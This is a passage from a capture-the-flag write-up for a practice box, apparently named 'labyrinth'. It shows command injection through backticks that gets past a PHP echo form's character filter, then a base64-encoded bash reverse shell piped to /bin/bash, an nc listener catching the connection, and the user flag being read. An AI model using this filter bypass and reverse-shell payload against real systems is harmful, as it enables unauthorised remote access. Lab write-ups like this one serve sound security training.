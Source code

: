 The "Secret_Stuff" page is just an "echo" tool. Whatever you type into the form gets echoed onto the page. It appears there is a filter because some commands and characters print a sort of error message to the page instead of the submitted value:

_You really think this is gonna be possible i fixed this @Deadalus -\_- !!!?_

Fortunately one crucial character is not restricted and we can execute commands by enclosing them in backticks (```). Using the `cat` command, we can see the filter being applied in `echo.php`.

```php
preg_match('/[#!@%^&*()$_=\[\]\';,{}:>?~\\\\]/', $search)
```

This makes crafting a bypass much easier than guessing. We can create a bash reverse shell by base64 encoding it.

`base64 -d <<< YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjAuMS80NDQ0IDA+JjEg | /bin/bash`

Be sure to add spaces to your reverse shell command until the encoded output has no trailing `=`; since it's a restricted character. Set up a listener and then submit the payload (wrapped in backticks) and we should have a successful reverse shell.

```console
$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.6.125.202] from (UNKNOWN) [10.10.240.244] 44298
bash: cannot set terminal process group (744): Inappropriate ioctl for device
bash: no job control in this shell
bash: /root/.bashrc: Permission denied
daemon@labyrinth:/opt/lampp/htdocs$ 
```

# User flag

Finding the user flag is straightforward. It's in the "user" home directory which is accessible to the _daemon_ user that we've just obtained access as.

```console
daemon@labyrinth:/opt/lampp/htdocs$ cd /home
cd /home
daemon@labyrinth:/home$ ls -al
ls -al
total 20
drwxr-xr-x  5 root     root     4096 jún   18  2021 .
drwxr-xr-x 26 root     root     4096 nov    9 13:37 ..
drwxr-xr-x  2 anonftp  anonftp  4096 jún   18  2021 anonftp
drwxr-xr-x 18 minotaur minotaur 4096 nov    9 13:35 minotaur
drwxr-xr-x  2 daemon   daemon   4096 jún   15  2021 user
daemon@labyrinth:/home$ cd user
cd user
daemon@labyrinth:/home/user$ ls -al
ls -al
total 12
drwxr-xr-x 2 daemon daemon 4096 jún   15  2021 .
drwxr-xr-x 5 root   root   4096 jún   18  2021 ..
-rw-r--r-- 1 daemon daemon   29 jún   15  2021 flag.txt
daemon@labyrinth:/home/user$ cat flag.txt
cat flag.txt
REDACTED
```
